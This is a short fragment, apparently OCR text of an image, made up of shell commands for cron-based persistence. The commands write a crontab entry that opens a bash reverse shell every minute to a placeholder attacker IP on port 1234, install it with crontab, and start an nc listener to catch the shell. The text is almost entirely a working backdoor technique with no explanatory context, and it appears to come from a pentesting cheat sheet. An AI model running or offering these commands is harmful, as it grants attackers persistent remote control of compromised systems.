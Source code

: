 - cat /etc/cron*
  - echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/1234 0>&1'" > backdoor
  - crontab -i backdoor
  - crontab -l

- nc -nlvp 1234
